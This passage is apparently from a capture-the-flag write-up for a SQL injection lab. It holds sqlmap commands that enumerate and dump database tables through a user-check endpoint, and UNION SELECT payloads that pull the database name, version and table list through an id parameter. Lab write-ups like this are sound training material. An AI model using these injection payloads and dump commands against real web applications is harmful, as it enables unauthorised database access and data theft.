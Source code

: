 ![image-22](https://github.com/user-attachments/assets/3a072cdb-4495-4ed9-aeb9-ff35ed252bfe)

Using the admin credentials, it is possible to log in and access a page containing flag1.  

![image-23](https://github.com/user-attachments/assets/17c6e1b0-501c-4565-9c59-864068db9668)

Right now we know about sqhell_1, sqhell_2, sqhell_4 and sqhell_5. What about sqhell_3?

Although new registrations are disabled, the application still performs live checks against existing usernames. Exploit user-check directly if possible by sqlmap. 
```BASH
sqlmap -u "http://$ip/register/user-check?username=*" --dbms=mysql --batch --level=3 --risk=3
```

![image-24](https://github.com/user-attachments/assets/2a21e9dc-c9c4-454f-bde5-e0157a0ac7ae)

The next step is to determine which database is being used by this endpoint.
```BASH
sqlmap -u "http://$ip/register/user-check?username=*" --dbms=mysql --batch --current-db
```

![image-25](https://github.com/user-attachments/assets/59432ea9-6e1c-4672-bcd6-6f492147eef2)

The active database is identified as sqhell_3, and its tables are enumerated.
```BASH
sqlmap -u "http://$ip/register/user-check?username=*" --dbms=mysql --batch -D sqhell_3 --tables
```

![image-26](https://github.com/user-attachments/assets/624bf835-234e-4c26-a630-8f83498df1fe)

Get flag.
```BASH
sqlmap -u "http://$ip/register/user-check?username=*" --dbms=mysql --batch -D sqhell_3 -T flag --dump
```

![image-27](https://github.com/user-attachments/assets/745ef225-5e1d-4a68-8bc1-48bfdc46b7e8)

<span>&nbsp;</span>

The final endpoint of interest is the /user page.
There are two ways:
1. SQL injection via URL:
```SQL
/user?id=1 UNION SELECT 1,2,3-- -
```
![image-38](https://github.com/user-attachments/assets/bd4452c8-e92a-42f1-9804-dccb3e4b0c38)

```SQL
/user?id=-1 UNION SELECT 1,DATABASE(),VERSION()-- -
```
![image-39](https://github.com/user-attachments/assets/ec876657-0cc7-4491-8342-e0e7bfad9e6a)

```SQL
/user?id=-1 UNION SELECT 1,(SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema='sqhell_4'),3-- -
```
![image-41](https://github.com/user-attachments/assets/d4e73468-e2d4-42fe-a661-3d5f1bc06f0d)
